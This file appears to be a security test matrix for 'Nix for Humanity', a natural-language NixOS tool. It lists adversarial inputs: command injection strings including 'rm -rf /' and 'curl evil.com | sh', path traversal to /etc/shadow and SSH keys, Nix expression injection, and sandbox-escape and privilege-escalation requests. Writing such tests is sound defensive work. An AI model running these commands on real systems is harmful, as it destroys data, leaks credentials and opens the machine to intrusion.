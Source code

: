 # Nix for Humanity - Security Test Scenarios

## 🛡️ Security Test Matrix

### 1. Command Injection Tests
```bash
# Test 1: Basic command injection
"install firefox; rm -rf /"
"install $(whoami)"
"install `cat /etc/passwd`"
"install firefox && curl evil.com | sh"

# Test 2: Path traversal
"install ../../etc/passwd"
"show me /nix/store/../../../etc/shadow"
"what is in ~/.ssh/id_rsa"

# Test 3: Nix expression injection
"install firefox --expr 'import <nixpkgs> {}; builtins.exec \"id\"'"
"update system --option sandbox false"
```

### 2. Sandbox Escape Tests
```bash
# Test 1: Nix daemon access
"install package with extra-sandbox-paths /tmp/daemon"
"configure nix to use trusted-users testuser"

# Test 2: Build-time network access
"install package that phones home"
"build custom derivation with fetchurl"

# Test 3: Container escape
"access host filesystem from container"
"modify /nix/store from build"
```

### 3. Permission Escalation Tests
```bash
# Test 1: Sudo exploitation
"run command as root"
"install suid binary"
"modify system configuration"

# Test 2: Service manipulation
"restart nix-daemon"
"stop firewall service"
"enable ssh with root login"

# Test 3: File system access
"read /etc/shadow"
"write to /etc/nixos/configuration.nix"
"modify /nix/store permissions"
```
